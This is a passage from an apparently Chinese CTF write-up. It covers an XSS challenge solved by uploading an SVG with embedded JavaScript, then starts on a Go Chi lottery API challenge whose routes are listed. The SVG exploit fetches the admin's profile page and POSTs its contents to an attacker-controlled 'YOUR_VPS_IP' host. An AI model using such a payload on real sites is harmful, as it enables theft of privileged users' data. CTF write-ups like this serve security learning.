 一道XSS题目，注册后存在上传接口以及向管理员汇报Bug

使用SVG矢量图片格式，内嵌JS代码，由于上传执行，不存在SOP影响

EXP：

```javascript
<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<svg version="1.1" id="Layer_1" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" x="0px" y="0px" width="100px" height="100px" viewBox="0 0 751 751" enable-background="new 0 0 751 751" xml:space="preserve">  <image id="image0" width="751" height="751" x="0" y="0"
    href="data:image/png;base64,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" />
<script>
fetch('http://web50.zajebistyc.tf/profile/admin').then(o => o.text()).then(v => fetch('http://YOUR_VPS_IP/', {method: 'POST',
        body: JSON.stringify({k: v})}));
</script>
</svg>
```

这里踩了个坑，用GET发数据会超出最大字节限制

***

#### The Lottery

Golang的Chi框架，其实Golang的Web框架都是千篇一律的API，几乎都只是在重复模仿

这道题给了源码，是一个REST API，有以下路由

```go
r.Get("/", handler.IndexGet)
r.Post("/account", handler.AccountAdd)
r.Post("/account/{name}/amount", handler.AccountAddAmount)
r.Get("/account/{name}", handler.AccountGet)
r.Post("/lottery/add", handler.LotteryAdd)
r.Get("/lottery/results", handler.LotteryResults)
```
